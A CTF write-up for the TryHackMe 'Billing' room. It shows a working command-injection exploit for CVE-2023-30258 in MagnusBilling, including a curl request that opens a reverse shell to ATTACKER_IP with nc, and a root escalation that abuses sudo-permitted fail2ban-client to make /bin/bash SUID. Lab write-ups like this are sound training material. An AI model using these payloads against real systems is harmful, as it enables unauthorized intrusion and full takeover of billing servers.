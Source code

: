 ```yaml
---
title: "Writeup: TryHackMe Billing"
date: "2025-04-17T04:46:09.686Z"
slug: "writeup-tryhackme-billing"
categories:
    - "it"
    - "writeups"
---
```



> [!info]
> - [Billing](https://tryhackme.com/room/billing)
> - Difficulty: easy
> - Platform: web, linux
>
> Gain a shell, find the way and escalate your privileges!
> Note: Bruteforcing is out of scope for this room.
>
> Answer the questions below
> 1. What is user.txt?
> 2. What is root.txt?

In this room I practiced exploiting CVEs and privilege escalation. Vulnerabilities explored:

- Command injection
- Sudoers misconfiguration

{{< toc >}} 

## Information gathering

As usual, first step, running a port scan:

```bash
$ sudo nmap -sV -T4 -n MACHINE_IP 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-07 17:23 EST
Nmap scan report for MACHINE_IP
Host is up (0.098s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
3306/tcp open  mysql   MariaDB (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

It detected SSH, HTTP, and mysql services.

> [!note]
> I should have run it with `-p-` option, because I missed [open 5038 Asterisk port](https://jaxafed.github.io/posts/tryhackme-billing/).

I attempted to access mysql, but received an error "Host is not allowed to connect to this MariaDB server".

Web service is hosting a MagnusBilling service.

![MagnusBilling login page showing service name in tab title](ctf_billing.png)

## User flag: getting reverse shell via command injection

Service seemed to me more complex than a simple bootstrapped CTF web site, so I searched for it and its known vulnerabilities.

There is a [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258) command injection vulnerability in MagnusSolution MagnusBilling 6.x and 7.x. I confirmed it with a time-based blind command injection:

```bash
curl 'http://MACHINE_IP/mbilling/lib/icepay/icepay.php?democ=iamhacked;sleep%2015;#'
```

Then I established a reverse shell:

```bash
curl 'http://MACHINE_IP/mbilling/lib/icepay/icepay.php?democ=iamhacked;nc%20-c%20bash%20ATTACKER_IP%209003;' 
```

And got a user key:

```bash
asterisk@Billing$ cat /home/magnus/user.txt                   
THM{REDACTED}
```


## Root flag: privilege escalation with fail2ban-client

To get the next flag I needed to have a root access. I did run [lienPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), but also checked certain things manually, including `sudo -l`. It showed that current user can run `fail2ban-client`.

```bash
asterisk@Billing$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

[Using this instruction](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/) I added a new ban action to set SUID bit on `/bin/bash`, triggered it, got access to root shell, and got and the second flag:

```bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@Billing$ sudo /usr/bin/fail2ban-client get asterisk-iptables  actions
The jail asterisk-iptables has the following actions:
iptables-allports-ASTERISK
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables addaction evil
evil
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@Billing$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.5 
1
asterisk@Billing$ /bin/bash -p
bash-5.1# cat /root/root.txt
THM{REDACTED}
```
